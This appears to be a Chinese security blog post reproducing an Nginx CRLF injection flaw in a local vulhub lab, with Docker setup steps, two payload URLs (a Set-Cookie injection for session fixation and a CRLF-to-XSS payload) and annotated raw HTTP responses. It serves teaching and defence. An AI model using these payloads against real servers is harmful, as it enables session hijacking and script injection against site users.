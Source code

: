 ```yaml
---
title: Nginx中间件漏洞之CRLF注入
tags: 
  - Nginx
  - 中间件漏洞
  - web安全
categories: 中间件安全
keywords: 'web安全,Nginx,中间件漏洞'
description: Nginx中间件漏洞之CRLF注入
cover: https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fupload-images.jianshu.io%2Fupload_images%2F3778244-65c62b2e2775b20a.png%3FimageMogr2%2Fauto-orient%2Fstrip%257CimageView2%2F2%2Fw%2F1240&refer=http%3A%2F%2Fupload-images.jianshu.io&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=jpeg?sec=1630941831&t=6d3fe55cc7cb43085f42e676981de631
date: 2021-08-05 09:45:41
---
```


<meta name="referrer" content="no-referrer"/>

# 0x01 复现环境

本地搭建docker+vulhub
```shell
cd vulhub-master 
cd nginx/insecure-configuration 
docker-compose up -d
```


# 0x02 漏洞复现
8080所在位置为CRLF注入漏洞
1、修改burp抓取数据包的端口为8089
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1626763746667-a4af1ae9-7a82-4633-a3ee-b6f720d0c16f.png#align=left&display=inline&height=265&margin=%5Bobject%2Object%5D&name=image.png&originHeight=530&originWidth=2222&size=96535&status=done&style=none&width=1111)
2、访问[http://127.0.0.1/](https://127.0.0.1/)，页面会强制跳转到https://127.0.0.1，数据包如下
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1626763827997-81b931c7-332b-473d-9efa-3617874e6fe0.png#align=left&display=inline&height=463&margin=%5Bobject%2Object%5D&name=image.png&originHeight=926&originWidth=1804&size=210325&status=done&style=none&width=902)
3、注意这里的Location参数值为即将要跳转的路径，下面更换访问路径如下：

```
http://127.0.0.1:8080/%0a%0dSet-Cookie:%20a=1
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1626763968311-2d1b4808-365e-4d3d-9562-00482672aa60.png#align=left&display=inline&height=537&margin=%5Bobject%2Object%5D&name=image.png&originHeight=1074&originWidth=1818&size=249528&status=done&style=none&width=909)
可以看到成功注入了Set-Cookie头，这里成功为攻击者设置了一个cookie，造成了**会话固定**漏洞。

4、CRLF注入当然不仅能造成会话固定，当换行多一个的时候，便能够将内容输入到页面上，这里很明显到一个反射型XSS漏洞，payload如下：
```
http://127.0.0.1:8080/%0D%0ASet-Cookie:%20ajie123%0d%0a%0d%0a<img src=1 onerror=alert(1)>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1626764298479-7bd1f1a8-6417-45f1-9116-ffc891d50f84.png#align=left&display=inline&height=480&margin=%5Bobject%2Object%5D&name=image.png&originHeight=960&originWidth=1800&size=237321&status=done&style=none&width=900)
# 0x03 漏洞分析
CRLF即回车换行，用字节来表示的话是\r\n，URL中就是%0D%0A，在http的header头部字段中，每一个参数后会自动跟上一个\r\n，也就是说如果没有正确识别我们输入的回车换行字段时，便可以通过回车换行使页面显示我们需要的数据。

即如下情况:
正常的返回包
```http
HTTP/1.1 302 Moved Temporarily[\r\n]
Server: nginx/1.13.0[\r\n]
Date: Tue, 20 Jul 2021 06:57:29 GMT[\r\n]
Content-Type: text/html[\r\n]
Content-Length: 161[\r\n]
Connection: close[\r\n]
Location: https://127.0.0.1/[\r\n]
```
设置cookie的返回包：
```http
HTTP/1.1 302 Moved Temporarily[\r\n]
Server: nginx/1.13.0[\r\n]
Date: Tue, 20 Jul 2021 06:57:29 GMT[\r\n]
Content-Type: text/html[\r\n]
Content-Length: 161[\r\n]
Connection: close[\r\n]
Location: https://127.0.0.1/[\r\n][\r\n]%0a%0dSet-Cookie:%20a=1
```
设置xss的返回包：
```http
HTTP/1.1 302 Moved Temporarily[\r\n]
Server: nginx/1.13.0[\r\n]
Date: Tue, 20 Jul 2021 06:57:29 GMT[\r\n]
Content-Type: text/html[\r\n]
Content-Length: 161[\r\n]
Connection: close[\r\n]
Location: https://127.0.0.1/[\r\n][\r\n]%0a%0dSet-Cookie:%20a=1[\r\n][\r\n]<img src=1 onerror=alert(1)>
```

